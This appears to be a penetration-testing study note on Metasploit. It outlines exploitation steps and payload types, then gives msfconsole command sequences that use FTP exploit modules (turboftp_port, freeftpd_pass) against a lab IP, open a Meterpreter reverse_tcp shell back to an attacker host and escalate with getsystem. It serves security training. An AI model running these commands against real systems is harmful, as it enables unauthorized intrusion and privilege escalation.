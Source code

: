 * Identifying a vulnerable service.
* Searching for a proper exploit for that service.
* Loading and configuring the exploit.
* Loading and configuring the payload you want to use.
* Running the exploit code and getting access to the vulnerable machine.

A payload is used by an attacker to get:

* An OS Shell.
* A VNC or RDP connection.
* A Meterpreter shell.
* The execution of an attacker-supplied application.

A special payload, with many useful features under the penetration testing point of view is `meterpreter`.

{% tabs %}
{% tab title="Start MSF" %}
```bash
$ service postgresql start
$ msfconsole
> help
> show -h
> search <searchterm> # search for a specific module by using the search cmd
> search skeleton
> search turboftp
> show exploits # impractical to use
> use exploit/windows/ftp/turboftp_port # to use exploit for turboftp
> info
> show options
> back
> show payloads
> set payload windows/meterpreter/reverse_tcp
> exploit
```
{% endtab %}

{% tab title="Exploit freeftpd" %}
```bash
# Exploit freeftpd
> use exploit/windows/ftp/freeftpd_pass
> set ftpuser anonymous
> set rhosts 192.168.99.12
> set rport 21
> set payload windows/meterpreter/reverse_tcp
> set exitfunc process
> set lhost 192.168.99.100
> set lport 4444
> exploit
# Get user
> getuid
# Obtain System privileges on the machine
> getsystem
```
{% endtab %}
